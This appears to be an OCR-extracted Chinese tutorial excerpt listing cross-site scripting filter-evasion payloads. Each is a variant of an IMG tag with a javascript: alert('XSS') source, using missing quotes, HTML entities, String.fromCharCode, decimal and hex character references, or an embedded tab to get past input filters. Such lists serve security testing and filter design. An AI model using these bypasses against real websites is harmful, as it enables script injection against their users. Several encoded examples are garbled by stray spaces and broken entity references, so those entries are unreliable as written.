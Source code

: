 

**没有双引号和分号:**

[code]

    <IMG SRC=javascript:alert('XSS')>
[/code]



**过滤了双引号和 <script>:**

[code]

    <IMG SRC=javascript:alert(&quot;XSS&quot;)>
[/code]



**使用 CharCode 绕过过滤:**

[code]

    <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
[/code]



**有经验的攻击者也可以把上面的全部转换成相等的 Ascii 码:**

[code]

    < IMG
    SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#10
    1; &#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
[/code]



**使用 Ascii 表你可以自己试试。当然转换成 16 进制也是可以的。。**

[code]

    < IMG
    SRC=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C
    ;& #x65;&#x72;&#x74;&#x28;&#x27;&#x58;&#x53;&#x53;&#x27;&#x29;>
[/code]



**使用制表符, 换行符和回车符**

**这些符号都是可以用来欺骗过滤器的。**

[code]

    <IMG SRC="jav&#x9ascript:alert('XSS');">
[/code]



**上面的例子使用了最小的十六进制的制表符来欺骗过滤器。最后的输出结果不变**
